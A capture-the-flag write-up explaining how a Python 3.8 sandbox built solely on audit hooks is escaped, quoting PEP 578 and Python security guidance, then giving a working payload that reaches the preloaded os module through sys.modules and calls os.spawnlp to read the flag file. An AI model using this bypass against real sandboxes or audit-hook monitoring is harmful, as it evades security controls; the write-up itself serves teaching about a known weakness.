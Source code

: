 # PySand (sandbox, python, audithook, sys.modules)
Python 3.8 introduced new audithook feature. You can read more about it in [PEP 578](https://www.python.org/dev/peps/pep-0578/) and [PEP 551](https://www.python.org/dev/peps/pep-0551/). The idea was to increase the ability to monitor suspicious actions taken by attackers. Both documents emphasize that this feature should not be used as prevention mechanism:

```
This proposal does not attempt to restrict functionality, but simply exposes the
fact that the functionality is being used. Particularly for intrusion scenarios,
detection is significantly more important than early prevention (as early
prevention will generally drive attackers to use an alternate, less-detectable,
approach). The availability of audit hooks alone does not change the attack surface
of Python in any way, but they enable defenders to integrate Python into their
environment in ways that are currently not possible.
```

Moreover if you are asking yourself how do we implement sandbox in python, then the answer is simple – we don't. Python [documentation](https://python-security.readthedocs.io/security.html) is very strict about this:

```
Sandbox
Don’t try to build a sandbox inside CPython. The attack surface is too large. 
Python has many introspection features, see for example the inspect module. Python also 
many convenient features which executes code on demand. Examples:

the literal string '\N{Snowman}' imports the unicodedata module
the code to log a warning might be abused to execute code
The good design is to put CPython into a sandbox, not the opposite.
```

## Back to the challenge
In the challenge we are given a simple and at first glance very restrictive sandbox totaly based on audithooks. Every action which invokes audit event is being just stoped and SecurityError is being raised. Of course the challenge creator wanted to proof that audithooks really should not be used to sandbox applications.

```python3
#!/usr/bin/env python3.8
import sys

class SecurityError(BaseException):
    pass

def audithook(name, tupla):
    raise SecurityError("Hackers not allowed. Tried to perform {}".format(name))

sys.addaudithook(audithook)
```

You can read which actions invoke audit event [here](https://docs.python.org/3/library/audit_events.html#audit-events). The list is very short and so it is obvious that it doesn't even try to log every malicious action, but just the most suspicious ones. 

So I started looking at avaible functions in [sys](https://docs.python.org/3/library/sys.html) and [os.path](https://docs.python.org/3/library/os.path.html#module-os.path) and [builtins](https://docs.python.org/3/library/functions.html#built-in-funcs) modules. But I couldn't find anything useful which doesn't invoke audit event.

But then I though of [sys.modules](https://docs.python.org/3/library/sys.html#sys.modules). When python starts up it in fact imports more modules then our program stated with the `import` statements. This is some optimization (I guess, I've never checked) mechanism. 
So lets check which modules have been loaded:

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
print(sys.modules)
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, '_io': <module 'io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'posix': <module 'posix' (built-in)>, '_thread': <module '_thread' (built-in)>, '_weakref': <module '_weakref' (built-in)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' from '/app/Python-3.8.0b1/Lib/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' from '/app/Python-3.8.0b1/Lib/encodings/aliases.py'>, 'encodings': <module 'encodings' from '/app/Python-3.8.0b1/Lib/encodings/__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/app/Python-3.8.0b1/Lib/encodings/utf_8.py'>, '_signal': <module '_signal' (built-in)>, '__main__': <module '__main__' from '/app/sandbox.py'>, 'encodings.latin_1': <module 'encodings.latin_1' from '/app/Python-3.8.0b1/Lib/encodings/latin_1.py'>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' from '/app/Python-3.8.0b1/Lib/abc.py'>, 'io': <module 'io' from '/app/Python-3.8.0b1/Lib/io.py'>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' from '/app/Python-3.8.0b1/Lib/stat.py'>, 'genericpath': <module 'genericpath' from '/app/Python-3.8.0b1/Lib/genericpath.py'>, 'posixpath': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, 'os.path': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, '_collections_abc': <module '_collections_abc' from '/app/Python-3.8.0b1/Lib/_collections_abc.py'>, 'os': <module 'os' from '/app/Python-3.8.0b1/Lib/os.py'>, '_sitebuiltins': <module '_sitebuiltins' from '/app/Python-3.8.0b1/Lib/_sitebuiltins.py'>, 'site': <module 'site' from '/app/Python-3.8.0b1/Lib/site.py'>, '_locale': <module '_locale' (built-in)>, '_bootlocale': <module '_bootlocale' from '/app/Python-3.8.0b1/Lib/_bootlocale.py'>}
```

Nice! Definitely more then `sys`, `os.path` and `builtins`! What is interesting we can see that the `os` module has been imported as well.
By searching the [os](https://docs.python.org/3/library/os.html) documentation we can find many interesting functions such as `os.open`, `os.system` etc. Most of them are noisy and result in rasing audit event. However there are also function like `os.spawnlp` which we can use.

The last question is, how do we access the `os` module? If we try to call os.spawnlp we will fail. But the answer is very simple. Just reference `os` module via `sys.modules['os']`.

## POC

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
sys.modules['os'].spawnlp(sys.modules['os'].P_WAIT, '/bin/cat', 'cat', '/app/flag.txt')
ecsc19{Aud1tButDontTrust}
```



## References:
1) https://docs.python.org/3/library/audit_events.html#audit-events
2) https://daddycocoaman.dev/posts/bypassing-python38-audit-hooks-part-1/
3) https://www.python.org/dev/peps/pep-0551/
3) https://www.python.org/dev/peps/pep-0578/